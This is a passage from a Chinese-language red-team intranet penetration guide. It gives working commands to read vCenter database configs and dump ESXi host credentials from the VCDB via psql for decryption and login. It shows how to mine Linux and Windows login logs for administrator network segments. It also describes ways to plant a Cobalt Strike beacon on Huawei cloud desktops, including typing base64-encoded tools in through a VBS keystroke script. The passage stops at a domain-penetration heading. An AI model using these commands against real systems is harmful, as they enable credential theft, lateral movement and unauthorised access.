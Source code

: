     
    
    cat /etc/vmware-vpx/vcdb.properties /etc/vmware/service-state/vpxd/vcdb.properties

导出连接数据库  

    
    
    psql -h 127.0.0.1 -p 5432 -U vc -d VCDB -c "select ip_address,user_name,password from vpx_host;" > password.enc

将password.enc导出到本地，运行脚本解密  

![](https://gitee.com/fuli009/images/raw/master/public/20230714180511.png)

解出来之后直接登录ex

![](https://gitee.com/fuli009/images/raw/master/public/20230714180512.png)

![](https://gitee.com/fuli009/images/raw/master/public/20230714180513.png)

### 查看登录地址

在内网信息收集的时候，尽可能的收集内网的网段信息，如果是一台服务器，必有运维人员上来维护，通过分析登录日志，可以发现运维人员的网段

#### linux

查看登录地址

    
    
    grep 'Accepted' /var/log/secure | awk '{print $11}' | sort | uniq -c | sort -nr

![](https://gitee.com/fuli009/images/raw/master/public/20230714180514.png)

#### windows

    
    
    SharpEventLog.exe -4624

![](https://gitee.com/fuli009/images/raw/master/public/20230714180515.png)

### 云桌面

在hw的过程中，发现有些行业喜欢用华为云桌面，由于我们需要在华为云主机上线cs，但是又无法直接复制文件、复制文本等

方法1：

前提条件：云桌面主机和宿主机是互通的

互通情况下可以使用华为云桌面里的主机反向连接宿主机，这样就可以直接通复制文件到华为云桌面上了

方法2：

前提条件：有机会操作目标主机

云桌面主机和宿主机是不互通的，可使用vbs脚本模拟键盘输入，将base64编码后的工具输入到云桌面，在云桌面进行解码

### 域渗透
